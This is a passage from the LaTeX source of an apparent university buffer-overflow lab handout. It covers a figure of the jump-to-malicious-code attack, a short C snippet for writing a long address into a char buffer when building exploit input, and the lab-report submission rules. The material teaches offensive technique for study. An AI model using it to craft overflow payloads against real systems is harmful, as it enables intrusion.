malicious code. Figure~\ref{fig:buffer_overflow_jump_to_malicious} 
depicts the attack.

\begin{figure}[htb]
	\centering
	
\includegraphics[width=0.80\textwidth]{\bufFigs/bof_jump_to_malicious_code.pdf}
	\caption{Illustration of the buffer-overflow attack}
	\label{fig:buffer_overflow_jump_to_malicious}
\end{figure}


\paragraph{Storing a long integer in a buffer in C:} 
In your exploit program (the C version), you might need to store an {\tt long} 
integer (4 bytes) into an buffer starting at 
\texttt{buffer[i]}. 
Since each buffer space is one byte long,
the integer will actually occupy four bytes starting at \texttt{buffer[i]} (i.e.,
\texttt{buffer[i]} to \texttt{buffer[i+3]}). Because buffer and long are of different
types, you cannot directly assign the integer to buffer; instead you can 
cast the \texttt{buffer+i} into an {\tt long} pointer, and then assign the integer. The
following code shows how to assign an {\tt long} integer to a buffer
starting at \texttt{buffer[i]}:


\begin{lstlisting}[language=C]
   char buffer[20];
   long addr = 0xFFEEDD88;

   long *ptr = (long *) (buffer + i);
   *ptr = addr;
\end{lstlisting}


% *******************************************
% SECTION
% *******************************************
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}
